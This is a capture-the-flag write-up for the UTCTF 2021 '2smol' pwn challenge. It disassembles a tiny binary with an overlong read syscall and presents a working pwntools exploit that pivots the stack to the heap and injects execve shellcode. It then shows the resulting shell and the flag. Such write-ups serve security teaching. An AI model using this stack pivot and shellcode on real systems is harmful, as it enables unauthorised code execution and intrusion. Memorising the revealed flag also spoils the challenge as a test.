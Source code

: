 ```yaml
---
layout: post
title: "[UTCTF 2021] 2smol"
author: Green-Avocado
---
```


## Challenge

I made this binary 2smol.

nc pwn.utctf.live 9998

by `hukc`

### Security measures:

No RELRO,No Canary found,NX disabled,No PIE,No RPATH,No RUNPATH,Symbols,No,0,0,smol

### Functions:

```asm
[0x00401000]> afl
0x00401000    1 13           entry0
0x0040100d    1 22           main
0x00401023    1 33           loc._read
```

#### Disassembled main:

```asm
[0x00401000]> pdf @ main
            ; CALL XREF from entry0 @ 0x401000
┌ 22: int main (int argc, char **argv, char **envp);
│           ; var int64_t var_8h @ rbp-0x8
│           0x0040100d      55             push rbp
│           0x0040100e      4889e5         mov rbp, rsp
│           0x00401011      4883ec08       sub rsp, 8
│           0x00401015      488d7df8       lea rdi, [var_8h]           ; int64_t arg1
│           0x00401019      e805000000     call loc._read
│           0x0040101e      4889ec         mov rsp, rbp
│           0x00401021      5d             pop rbp
└           0x00401022      c3             ret
```

The `main` function calls `loc._read` and passes a pointer to `$rbp-0x8`, then returns.

#### Disassembled read:

```asm
[0x00401000]> pdf @ loc._read
            ; CALL XREF from main @ 0x401019
┌ 33: loc._read (int64_t arg1);
│           ; arg int64_t arg1 @ rdi
│           0x00401023      55             push rbp
│           0x00401024      4889e5         mov rbp, rsp
│           0x00401027      4883ec08       sub rsp, 8
│           0x0040102b      4889fe         mov rsi, rdi                ; arg1
│           0x0040102e      bf00000000     mov edi, 0
│           0x00401033      ba00020000     mov edx, 0x200              ; 512
│           0x00401038      b800000000     mov eax, 0
│           0x0040103d      0f05           syscall
│           0x0040103f      4889ec         mov rsp, rbp
│           0x00401042      5d             pop rbp
└           0x00401043      c3             ret
```

The `loc._read` function executes a syscall, `read(0, *buf, 0x200)`, where `*buf` is the pointer to a local variable in main.
As this will read more characters than the buffer size, we can overwrite the stored `$rbp` and `$rsp`, and 0x190 bytes after that.

## Solution

As NX is disabled, we can write and execute arbitrary code to memory.

I used code from [shellstorm](http://shell-storm.org/shellcode/files/shellcode-806.php).

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-- /home/user/Documents/ctf/2smol/smol
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x /home/user/Documents/ctf/2smol/smol
0x0000000000402000 0x0000000000403000 0x0000000000000000 rw- [heap]
0x00007ffff7ff9000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
```

Both the heap and stack should have `rwx` permissions.
My machine prevents this, but this has been disabled to test the exploit.
Stack addresses are randomized at runtime, however the heap is not.
We can shift the location of our callstack onto the heap to write and execute our shellcode.

On the first read, we fill the buffer with 0x8 bytes, then we overwrite the saved `$rbp` with a location on the heap, and we overwrite the return address to point at the instruction before `loc._read` is called.
This allows us to call read again and write our shellcode to the heap.

On the second read, we fill the buffer, base pointer, and return address with anything.
Then we overwrite the return address to point the location our shell code will be place, followed by our shellcode.

Sending these payloads to the server gives us a shell where we can find and read the flag file.

## Exploit

```py
#!/usr/bin/env python3

from pwn import *

#p = process("./smol")
p = remote('pwn.utctf.live', 9998)

shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

main = 0x0040100d
stack = 0x402500



context.terminal = ['tmux', 'splitw', '-h']

#gdb.attach(p, '''
#b*0x40101e
#''')



payload1 = b''
payload1 += b'A' * 0x8 #padding
payload1 += p64(stack) #rbp
payload1 += p64(main + 8) #rip
payload1 += b'B' * (0x200 - 0x8 * 3)

p.send(payload1)



payload2 = b''
payload2 += b'C' * 0x8 #padding
payload2 += b'D' * 0x8 #rbp
payload2 += p64(stack+0x10) #rip
payload2 += shellcode

p.send(payload2)



p.interactive()
```

```
-> % ./exploit.py                     
[+] Opening connection to pwn.utctf.live on port 9998: Done
[*] Switching to interactive mode
$ whoami
srop
$ ls
flag.txt
$ cat flag.txt
utflag{srop_xd}
$  
```

